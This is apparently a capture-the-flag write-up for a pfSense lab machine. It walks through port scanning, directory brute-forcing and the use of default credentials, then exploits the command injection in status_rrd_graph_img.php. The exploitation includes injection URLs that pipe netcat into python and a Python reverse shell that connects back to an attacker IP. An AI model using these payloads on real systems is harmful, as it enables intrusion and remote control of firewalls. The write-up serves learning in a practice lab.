








# Enumeration

## Run Nmap Scan

```bash
nmap -p- -T4 10.129.30.207

"
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-30 08:26 BST
Nmap scan report for 10.129.30.207
Host is up (0.18s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT    STATE SERVICE
80/tcp  open  http
443/tcp open  https

Nmap done: 1 IP address (1 host up) scanned in 289.74 seconds
"
```

```bash
nmap -p 80,443 -sC -sV 10.129.30.207

"
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-30 08:32 BST
Nmap scan report for 10.129.30.207
Host is up (0.18s latency).

PORT    STATE SERVICE    VERSION
80/tcp  open  http       lighttpd 1.4.35
|_http-title: Did not follow redirect to https://10.129.30.207/
|_http-server-header: lighttpd/1.4.35
443/tcp open  ssl/https?
| ssl-cert: Subject: commonName=Common Name (eg, YOUR name)/organizationName=CompanyName/stateOrProvinceName=Somewhere/countryName=US
| Not valid before: 2017-10-14T19:21:35
|_Not valid after:  2023-04-06T19:21:35
|_ssl-date: TLS randomness does not represent time

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.40 seconds
"
```

## **View Website (Index.php)**


## Directory Bruteforcing (Run Gobuster)

```bash
gobuster dir -u https://10.129.30.207/ -w /usr/share/wordlists/dirb/common.txt -k -z

"
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     https://10.129.30.207/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2023/09/30 08:54:23 Starting gobuster in directory enumeration mode
===============================================================
/classes              (Status: 301) [Size: 0] [--> https://10.129.30.207/classes/]
/css                  (Status: 301) [Size: 0] [--> https://10.129.30.207/css/]    
/favicon.ico          (Status: 200) [Size: 1406]                                  
/includes             (Status: 301) [Size: 0] [--> https://10.129.30.207/includes/]
/index.html           (Status: 200) [Size: 329]                                    
/index.php            (Status: 200) [Size: 6690]                                   
/installer            (Status: 301) [Size: 0] [--> https://10.129.30.207/installer/]
/javascript           (Status: 301) [Size: 0] [--> https://10.129.30.207/javascript/]
/themes               (Status: 301) [Size: 0] [--> https://10.129.30.207/themes/]    
/tree                 (Status: 301) [Size: 0] [--> https://10.129.30.207/tree/]      
/widgets              (Status: 301) [Size: 0] [--> https://10.129.30.207/widgets/]   
/xmlrpc.php           (Status: 200) [Size: 384]                                      
                                                                                     
===============================================================
2023/09/30 08:56:02 Finished
===============================================================
"
```

I couldn’t find any additional hints, so ran gobuster with larger directory list with file extensions.

```bash
gobuster dir -u https://10.129.30.207/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -k -x php,txt -f

"
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     https://10.129.30.207/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php,txt
[+] Add Slash:               true
[+] Timeout:                 10s
===============================================================
2023/09/30 12:49:02 Starting gobuster in directory enumeration mode
===============================================================
/index.php            (Status: 200) [Size: 6690]
/help.php             (Status: 200) [Size: 6689]
/stats.php            (Status: 200) [Size: 6690]
/edit.php             (Status: 200) [Size: 6689]
/license.php          (Status: 200) [Size: 6692]
/system.php           (Status: 200) [Size: 6691]
/status.php           (Status: 200) [Size: 6691]
/changelog.txt        (Status: 200) [Size: 271] 
/exec.php             (Status: 200) [Size: 6689]
/graph.php            (Status: 200) [Size: 6690]
/tree/                (Status: 200) [Size: 7492]
/wizard.php           (Status: 200) [Size: 6691]
/pkg.php              (Status: 200) [Size: 6688]
/installer/           (Status: 302) [Size: 0] [--> installer.php]
/xmlrpc.php           (Status: 200) [Size: 384]                  
/reboot.php           (Status: 200) [Size: 6691]                 
/interfaces.php       (Status: 200) [Size: 6695]                 
/system-users.txt     (Status: 200) [Size: 106]                  
Progress: 400221 / 661683 (60.49%)
^C
[!] Keyboard interrupt detected, terminating.
                                                                 
===============================================================
2023/09/30 15:20:06 Finished
===============================================================
"
```

## Visit Index.html (No hints)



The “Begin Installation” link redirects us to [https://10.129.30.207/dfuife.cgi](https://10.129.30.207/dfuife.cgi). Unfortunately the link didn’t work, so no attempt for shellshock exploitation.

## Finding the Credentials



```bash
username: rohit
password: pfsense
```

### Reference about the password

[https://www.securityspace.com/smysecure/catid.html?id=1.3.6.1.4.1.25623.1.0.112122](https://www.securityspace.com/smysecure/catid.html?id=1.3.6.1.4.1.25623.1.0.112122)

## Login to index.php and Enumerate informations



We found that the version

# Exploitation (Using Searchsploit)

## Search for pfsense exploits

```bash
searchsploit pfsense 2.1.3

"
---------------------------------------------- ---------------------------------
 Exploit Title                                |  Path
---------------------------------------------- ---------------------------------
pfSense < 2.1.4 - 'status_rrd_graph_img.php'  | php/webapps/43560.py
---------------------------------------------- ---------------------------------
Shellcodes: No Results
"
```

## Listen to Reverse Shell and Exploit

```bash
nc -lvnp 4444

"
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 10.129.30.207.
Ncat: Connection from 10.129.30.207:2347.
sh: can't access tty; job control turned off
# whoami 
root
"
```

```bash
cp /usr/share/exploitdb/exploits/php/webapps/43560.py exploit.py
./exploit.py --rhost 10.129.30.207 --lhost <attacker ip> --lport 4444 --username rohit --password pfsense
```

# Exploitation (Using Burp)

## Login to pfsense to Authenticate



## Requesting to “/status_rrd_graph_img.php” and Pass the HTTP request to the Repeater





## How the command execution works

```bash
/status_rrd_graph_img.php?database=queues;<command to execute>|nc+<attacker ip>+4444
```

## Try with various reverse shell code.



## Using combination of nc and python to get a reverse shell



```bash
/status_rrd_graph_img.php?database=queues;nc+10.10.14.23+4444|python
```

The above URL request means that at first, it will request for input from the attacker ip, then pipeline the input in to python. (Means port 4444 will send the python reverse shell code(`nc -lvnp 4444 < reverse.py`) to the victim’s system, after then the victim’s system will execute the reverse shell code (`|python`) to send reverse shell to port 4443(`nc -lvnp 4443`))

```python
import socket,subprocess,os,pty
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("<attacker ip>",4443))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2);
pty.spawn("sh")
```

```bash
# Reverse shell listener for sending the reverse shell code
# Since there's no "nc -e command"
nc -lvnp 4444 < reverse.py
# Reverse shell listener for exploit
nc -lvnp 4443
```

## Reference

Ippsec - Sense

[https://youtu.be/d2nVDoVr0jE?si=Nf9Koa-AoGgi-U5I](https://youtu.be/d2nVDoVr0jE?si=Nf9Koa-AoGgi-U5I)